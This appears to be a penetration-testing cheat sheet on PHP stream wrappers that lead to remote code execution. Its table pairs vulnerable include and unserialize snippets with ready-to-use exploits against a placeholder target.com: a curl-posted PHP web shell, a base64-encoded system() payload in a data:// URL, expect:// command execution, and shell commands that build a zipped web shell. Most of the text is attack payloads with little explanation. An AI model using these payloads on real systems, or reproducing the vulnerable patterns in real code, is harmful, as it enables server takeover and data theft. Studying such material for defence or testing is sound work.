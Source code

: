 **1. PHP Wrappers Leading to RCE**

PHP wrappers are stream wrappers that provide access to various protocols and encapsulate operations on them. Misuse or improper validation when using these wrappers can lead to security vulnerabilities, including RCE.


|**Wrapper**|**Description**|**Exploitation Example**|
|---|---|---|
|**`php://input`**|Accesses raw POST data.|**Vulnerable Code:**`include('php://input');`**Exploit:**`curl -X POST --data '<?php system($_GET["cmd"]); ?>' "http://target.com/vulnerable.php?cmd=id"`|
|**`data://`**|Embeds base64-encoded data in PHP.|**Vulnerable Code:**`include($_GET['page']);`**Exploit:**`http://target.com/vulnerable.php?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==&cmd=id`|
|**`expect://`**|Executes system commands via process interaction.|**Vulnerable Code:**`include($_GET['page']);`**Exploit:**`http://target.com/vulnerable.php?page=expect://id`|
|**`zip://`**|Reads files inside ZIP archives.|**Vulnerable Code:**`include($_GET['file']);`**Exploit:**Create a ZIP containing a PHP shell:`echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.zip shell.php`Trigger RCE:`http://target.com/vulnerable.php?file=zip://shell.zip%23shell.php&cmd=id`|
|**`phar://`**|Exploits PHAR deserialization for RCE.|**Vulnerable Code:**`$data = unserialize(file_get_contents('phar://'.$_GET['file']));`**Exploit:**Create a malicious PHAR:`php -d 'phar.readonly=0' create_phar.php`Trigger RCE:`http://target.com/vulnerable.php?file=malicious.phar`|


